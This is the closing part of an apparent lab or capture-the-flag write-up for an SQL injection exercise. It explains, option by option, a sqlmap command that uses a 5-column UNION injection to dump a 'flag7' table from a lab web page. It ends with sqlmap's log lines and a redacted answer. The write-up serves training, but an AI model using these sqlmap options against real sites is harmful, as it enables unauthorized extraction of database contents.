[14:21:30] [INFO] fetched data logged to text files under '/home/—REDACTED—/.local/share/sqlmap/output/154.57.164.70'

[*] ending @ 14:21:30 /2026-10-22/
```

**Breakdown:**

- `sqlmap` invokes the tool
- `'http://154.57.164.70:43778/case7.php?id=1*'` is the target URL, with `*` marking the injection point directly after `1`
- `-H '...'` flags replicate the headers the browser originally sent
- `--batch` skips every interactive prompt by automatically choosing the default option
- `--dump` dumps the contents of any table SQLMap enumerates
- `-T flag7` narrows the dump to the `flag7` table
- `--technique=U` restricts testing to the UNION query-based technique only, skipping every other injection type
- `--union-cols=5` provides the exact column count (5) found by manually counting the page's output table, so SQLMap doesn't need to determine it itself
- `--level=5 --risk=3` raises the vector/boundary set and risk tier to maximum

With the column count supplied directly, SQLMap skipped the usual column-count discovery process and went straight to testing a 5-column UNION query. The first attempt with `NULL` filler values failed (`injection not exploitable with NULL values`), so, with `--batch` defaulting to yes, SQLMap automatically retried with a random integer filler value instead, which succeeded. It then enumerated `testdb` and dumped `flag7` cleanly.

**Answer:** `—REDACTED—`